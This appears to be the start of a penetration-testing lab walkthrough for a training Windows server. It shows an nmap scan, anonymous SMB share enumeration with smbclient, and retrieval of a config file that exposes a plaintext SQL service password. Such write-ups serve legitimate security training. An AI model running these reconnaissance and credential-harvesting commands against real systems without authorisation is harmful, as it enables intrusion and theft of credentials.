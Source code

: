 
nmap scanning:

nmap  10.129.7.59 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 12:42 EDT
Nmap scan report for 10.129.7.59
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2023-05-29T16:45:10+00:00; +2m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-05-29T15:29:30
|_Not valid after:  2053-05-29T15:29:30
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-05-29T16:44:57
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-05-29T09:45:00-07:00
|_clock-skew: mean: 1h47m01s, deviation: 3h30m02s, median: 1m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.98 seconds

What is the use of Smbclient in Linux?

smbclient is **commonly used in network administration tasks, such as transferring files between Windows and Linux systems or backing up files from Windows servers**. It can also be used in scripting and automation tasks to perform operations on remote SMB/CIFS resources.

smbclient:

smbclient -N -L \\\\  10.129.7.59\\ 
-N : No password  
-L : This option allows you to look at what services are available on a server

smbclient -N -L \\\\10.129.7.59\\

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.7.59 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

smbclient -N \\\\10.129.7.59\\backups

smbclient -N \\\\10.129.7.59\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2616187 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \> exit

cat prod.dtsConfig:
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>




